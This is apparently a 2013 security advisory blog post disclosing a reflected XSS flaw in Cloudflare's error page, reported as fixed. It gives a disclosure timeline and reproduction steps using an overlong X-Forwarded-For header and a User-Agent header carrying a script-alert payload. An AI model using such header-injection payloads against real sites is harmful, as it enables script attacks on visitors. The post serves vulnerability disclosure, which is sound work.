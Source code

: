```yaml
---
layout: post
title: "[DAHAX-2013-001] Cloudflare XSS Vulnerability"
date: '2013-08-14T15:00:00-07:00'
tags:
- dahax-2013-001
- dahax
- '2013'
- vulnerability
- notification
- cloudflare
- xss
- x-forwarded-for
- user-agent
tumblr_url: http://devalias.tumblr.com/post/58217238426/dahax-2013-001-cloudflare-xss-vulnerability
redirect_from: /post/58217238426/dahax-2013-001-cloudflare-xss-vulnerability
---
```

**Reference Number:** DAHAX-2013-001 (/dev/alias/hacks 2013-001)

### Notification Timeline

* 10/07/2013, Request# 38713 (https://support.cloudflare.com/anonymous_requests/new)
* 10/07/2013, Vendor looking into issue
* 16/07/2013, Updated vendor with new details (Length: 101 instead of 72)
* 16/07/2013, Vendor requested that I test again
* No response from vendor
* 01/08/2013, Tested again, vulnerability fixed
* 22/08/2013, Posted details to full-disclosure
* 22/08/2013, Vendor confirmed issue has been fixed

**Details Published:** 14/08/2013 (http://blog.devalias.net)

## What?

* Reflected XSS (cross site scripting) attack

## Where’s Affected?

* Theoretically it seems that any page that uses cloudflare will be affected.
  * Eg: [http://www.cloudflare.com/](https://www.cloudflare.com/)

## How?

* **To bring up the vulnerable page**
  * Set your X-Forwarded-For header to 101+ characters
  * Eg:

```
X-Forwarded-For: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGGGGGGGHHHHHHHHHHIIIIIIIIIIJJJJJJJJJJK
```

* Load a site using cloudflare
* You should end up on "DNS Points to Prohibited IP" page
  * **To trigger the XSS**
* Set your User-Agent string to the XSS attack
  * Eg:

```
User-Agent: USER-AGENT being tested for XSS..<script>alert(''Vulnerable to XSS via USER-AGENT header [Found by devalias.net]'')</script>
```

* **The whole attack**
  * Ensure your X-Forwarded-For and User-Agent headers are configured as above
  * Navigate to a page using cloudflare
  * ???
  * Profit!

## Who?

Discovered by [Glenn 'devalias' Grant](http://www.devalias.net/) (glenn@devalias.net)

## Responsible Disclosure Notice

* Following in the footsteps of Google’s vulnerability disclosure timeline, unless otherwise agreed to beforehand, I reserve the right to publicly announce the details of any discovered vulnerabilities 7 days post notification.
  * **Google’s Rationale:** "Seven days is an aggressive timeline and may be too short for some vendors to update their products, but it should be enough time to publish advice about possible mitigations, such as temporarily disabling a service, restricting access, or contacting the vendor for more information. As a result, after 7 days have elapsed without a patch or advisory, we will support researchers making details available so that users can take steps to protect themselves. By holding ourselves to the same standard, we hope to improve both the state of web security and the coordination of vulnerability management." - [Google](https://googleonlinesecurity.blogspot.com.au/2013/05/disclosure-timeline-for-vulnerabilities.html)
